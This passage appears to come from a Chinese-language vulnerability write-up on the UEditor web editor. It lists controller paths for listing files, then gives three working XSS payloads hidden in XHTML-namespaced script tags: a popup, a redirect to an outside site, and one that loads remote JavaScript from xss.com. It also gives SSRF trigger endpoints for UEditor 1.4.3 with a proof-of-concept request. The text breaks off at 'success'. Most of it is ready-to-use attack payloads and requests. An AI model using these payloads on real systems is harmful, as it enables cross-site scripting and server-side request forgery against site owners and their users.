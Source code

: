 常用的查看路径：
（请注意controller.xxx的访问路径）

```
/ueditor/net/controller.ashx?action=listfile
/ueditor/net/controller.ashx?action=listimage
```

**payload**整理成三类如下：

## 弹窗xss
```
<html>
<head></head>
<body>
<something:script xmlns:something="http://www.w3.org/1999/xhtml"> alert(2022);
</something:script>
</body>
</html>
```
## url重置
```
<html>
<head></head>
<body>
<something:script xmlns:something="http://www.w3.org/1999/xhtml"> window.location.href= "https://www.t00ls.net/" ;
</something:script>
</body>
</html>
```
## 远程加载JS
```
<html>
<head></head>
<body>
<something:script src="http://xss.com/xss.js" xmlns:something="http://www.w3.org/1999/xhtml">
</something:script>
</body>
</html>
```

# 0x03 SSRF
该漏洞存在于1.4.3的jsp版本中。但1.4.3.1版本已经修复了该漏洞。
已知该版本ueditor的ssrf触发点：
```
/jsp/controller.jsp?action=catchimage&source[]=
/jsp/getRemoteImage.jsp?upfile=
/php/controller.php?action=catchimage&source[]=
```
使用百度logo构造poc:
```
http://1.1.1.1:8080/xxx/ueditor/jsp/controller.jsp
?action=catchimage&source[]=
https://www.baidu.com/img/PCtm_d9c8750bed0b3c7d089fa7d55720d6cf.png
```
成功：
